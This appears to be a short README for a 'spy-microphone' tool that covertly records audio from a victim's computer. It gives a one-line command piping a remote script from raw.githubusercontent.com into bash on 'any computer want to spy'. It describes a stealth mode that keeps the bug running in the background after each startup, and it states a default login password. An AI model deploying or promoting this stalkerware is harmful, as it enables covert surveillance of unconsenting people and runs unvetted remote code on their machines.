

   For use spy-microphone please follow instructions   

   Easy remote command for spy  
   Open the terminal of any computer want to spy and run this:  
   bash <(curl -s https://raw.githubusercontent.com/makdosx/spy-microphone/master/shell/autorun.sh)   

    i) Run the file autorun.sh in  the computer of victim and set your params 
       Stealth Mode  
         With this feature the bug will continue if it works whenever the victim opens the computer 
         automatically by running in the background.
         
  ii) import the sql file in to your database 

  iii) The spy-microphone ready to use 
  
   Default password for login is: spymic

       

       

       

       

       

 
